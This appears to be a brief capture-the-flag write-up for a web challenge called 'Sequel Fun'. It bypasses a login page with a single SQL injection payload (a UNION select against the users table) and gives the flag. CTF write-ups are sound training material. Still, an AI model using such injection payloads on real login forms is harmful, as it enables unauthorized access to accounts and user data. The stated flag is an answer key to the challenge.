 [../](../../)

# Sequel Fun

## Web Exploitation

> So I found this login page, but I forgot the credentials :(
>
> [http://challs.xmas.htsp.ro:11006](http://challs.xmas.htsp.ro:11006)

## Solution

SQLi:

	' union select * from users; -- 

flag: `X-MAS{S0_1_c4n_b3_4dmin_w1th0ut_7h3_p4ssw0rd?}`